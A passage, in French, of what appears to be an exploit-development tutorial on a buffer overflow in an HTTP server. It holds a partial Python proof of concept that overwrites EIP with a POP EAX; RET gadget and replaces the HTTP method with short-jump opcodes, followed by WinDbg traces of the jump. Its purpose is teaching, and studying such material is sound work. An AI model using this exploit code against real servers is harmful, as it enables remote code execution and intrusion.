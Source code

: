 On est donc capable de modifier la méthode HTTP sans impacter le crash en lui-même. La méthode est bien remplacée par nos `0x43` qui correspondent a des `C`.

On pourrait utiliser un *short jump*. Jump de `0x17` bytes devrait permettre d'arriver dans le buffer. On remplace donc la méthode `HTTP` par les *opcodes* correspondant à un *short jump* de `0x17`.

Mise à jour de la preuve de concept :

```py
#!/usr/bin/python
import socket
import sys
from struct import pack

try:
  server = sys.argv[1]
  port = 80
  size = 253

  httpMethod = b"\xeb\x17\x90\x90" + b" /" # Short jump de 0x17
  inputBuffer = b"\x41" * size
  inputBuffer += pack("<L", (0x418674)) # 0x00418674 : POP EAX ; RET -> EIP
  httpEndRequest = b"\r\n\r\n"
```

Exécution de la preuve de concept et positionnement d'un point d'arrêt sur l'adresse où se trouve la série d'instructions `POP EAX;RET` :

```powershell
0:009> bp 0x00418674
#
0:009> g
Breakpoint 0 hit
00418674 58              pop     eax
#
0:004> t
eax=00000000
00418674 58              pop     eax
#
0:004> t
eax=0467fe70
00418675 c3              ret
#
0:004> t
eax=0467fe70
0467ea84 cb              retf
#
0:004> db @eip L2
0467ea84  cb 17
#
0:004> u @eip
0467ea84 cb              retf                                           # ERREUR À CET ENDROIT
0467ea85 17              pop     ss
0467ea86 90              nop
0467ea87 90              nop
0467ea88 0000            add     byte ptr [eax],al
[...]
```
